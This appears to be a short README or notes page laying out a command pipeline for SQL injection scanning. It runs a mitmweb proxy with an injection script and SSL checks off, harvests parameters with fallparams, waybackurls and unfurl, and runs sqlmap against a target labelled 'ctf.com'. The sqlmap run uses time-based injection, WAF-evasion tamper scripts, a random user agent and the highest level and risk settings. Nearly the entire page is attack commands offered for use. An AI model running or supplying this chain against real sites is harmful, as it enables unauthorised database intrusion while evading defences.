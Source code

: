 # SQLMap Over Zero-Trust

These will be invaluable for our SQLMap scan.

command sequence incorporating everything:

0. Run <a href="https://github.com/dewebdes/ZedAlert/blob/main/tools/fuzz/dns/multiproxy-injection-fat.py">MITM-CL</a> proxy:
   ```bash
   ./mitmweb --set block_global=false --ssl-insecure -s multiproxy-injection-fat.py > /dev/null 2>&1
   ```

1. Use `fallparams` to crawl the target URL and gather parameters:
   ```bash
   ./fallparams -u https://ctf.com/Search.aspx -crawl
   ```

2. Use `waybackurls` and `unfurl` to gather additional parameters:
   ```bash
   echo "ctf.com" | ./waybackurls | ./unfurl keys | tee way-unf.txt
   ```

3. Combine all parameter sources into a single, unique wordlist including the top-27 XSS parameters:
   ```bash
   cat parameters.txt top-27-xss-parameter.txt way-unf.txt | sort | uniq > params.txt
   ```

4. Run SQLMap with the generated wordlist and crawling enabled:
   ```bash
   sqlmap -u "https://ctf.com/Search.aspx?postback=true&more=false&jto=1&q=consultant&rad=5&where=dusseldofr&indid=37&indid=4" --technique=T --batch --delay=25 --time-sec=15 --random-agent --tamper=between --tamper=space2comment --proxy=http://127.0.0.1:8080 --level=5 --risk=3 --crawl=3 -p $(cat params.txt | tr '\n' ',')
   ```

This comprehensive approach combines the strengths of parameter discovery tools with the thoroughness of SQLMap's scanning capabilities.
